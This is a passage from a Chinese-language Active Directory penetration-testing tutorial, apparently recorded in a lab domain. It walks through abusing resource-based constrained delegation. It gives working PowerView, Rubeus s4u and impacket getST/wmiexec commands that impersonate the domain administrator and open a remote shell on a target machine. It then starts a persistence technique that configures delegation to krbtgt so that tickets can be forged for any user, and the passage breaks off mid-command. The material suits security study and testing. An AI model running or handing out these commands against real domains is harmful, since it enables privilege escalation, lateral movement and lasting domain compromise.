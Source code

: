 `$SD.GetBinaryForm($SDBytes, 0)`

`Get-DomainComputer DESKTOP-P34E60A| Set-DomainObject -Set @{'msds-
allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose`

![]()

 **检查是否配置成功**

Get-DomainComputer DESKTOP-P34E60A -Properties msds-
allowedtoactonbehalfofotheridentity

 **攻击完成清除基于资源的约束委派配置：**

Set-DomainObject DESKTOP-P34E60A -Clear 'msds-
allowedtoactonbehalfofotheridentity' -Verbose

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091129.png)

也可以在域控上通过命令行打开adsiedit.msc查看CN=DESKTOP-P34E60A机器属性，可以看到：

`当被设置为基于资源的约束委派的时候，它的msds-allowedtoactonbehalfofotheridentity会包含有效字段。`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091130.png)

现在已经配置好利用条件就可以通过基于资源的约束委派进行攻击了

 **1.使用rubues获取票据**

Rubeus.exe hash /user:win10system /password:win10 /domain:hiro.com

![]()

Rubeus.exe s4u /user:win10system$ /rc4:6C4FD556DB12BE51BACD9A3CC19D486E
/impersonateuser:administrator /msdsspn:cifs/DESKTOP-P34E60A /ptt

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091131.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091132.png)

 **2.使用impacket套件获取**

`python3 getST.py -dc-ip 192.168.228.10 -spn cifs/DESKTOP-P34E60A -impersonate
administrator hiro.com/win10system$:win10`

`set KRB5CCNAME=administrator.ccache`

`python3 wmiexec.py -no-pass -k administrator@DESKTOP-P34E60A.hiro.com -dc-ip
192.168.228.10`

###  **利用基于资源的约束委派进行权限维持**

跟约束委派利用相似，可以 **配置win10system到krbtgt的基于资源的约束委派** ，只要有了win10system的权限，就能
**伪造任意用户请求krbtgt服务，则可以请求到任意用户的TGT**

在域控上执行：

`$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList
"O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3105699010-1460039537-418241315-1151)"`

`$SDBytes = New-Object byte[] ($SD.BinaryLength)`
